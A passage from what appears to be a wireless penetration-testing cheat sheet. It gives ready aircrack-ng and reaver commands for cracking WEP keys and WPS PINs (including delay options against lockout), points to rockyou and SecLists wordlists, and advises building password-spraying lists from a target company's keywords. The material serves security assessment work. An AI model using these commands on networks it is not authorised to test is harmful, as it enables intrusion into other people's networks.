 Crack the WEP authentication:

```fundamental
aircrack-ng -b FF:FF:FF:FF:FF:FF -e essid airodump_essid_results*.cap
```

### WPS PIN

Crack a WPS PIN:

```fundamental
reaver -vv -i wlan1 -c 8 -b FF:FF:FF:FF:FF:FF -e essid --pixie-dust
```

Crack a WPS PIN with some delay between attempts:

```fundamental
reaver -vv -i wlan1 -c 8 -b FF:FF:FF:FF:FF:FF -e essid --pixie-dust -N -L -d 5 -r 3:15 -T 0.5
```

## 4. Wordlists

You can find `rockyou.txt` wordlist located at `/usr/share/wordlists/` directory or download it from my other [project](https://github.com/ivan-sincek/penetration-testing-cheat-sheet/blob/master/dict).

### 4.1 Useful Websites

[weakpass.com/wordlist](https://weakpass.com/wordlist)

### SecLists

Download a useful collection of multiple types of lists for security assessments.

Installation:

```fundamental
apt-get install seclists
```

Lists will be stored at `/usr/share/seclists/`.

Or, download the collection manually from [here](https://github.com/danielmiessler/SecLists/releases).

### Password Spraying

Find out how to generate a good password spraying wordlist from my other [project](https://github.com/ivan-sincek/wordlist-extender), but first you will need a few good keywords that describe your target.

Such keywords can be a company name and abbreviation or keywords that describe your target's services, products, etc.

After you generate the wordlist, use it with tool such as `aircrack-ng` to crack WPA/WPA2 handshakes.

If strong password policy is enforced, passwords usually start with one capitalized word followed by few digits and one special character at the end (e.g. Password123!).
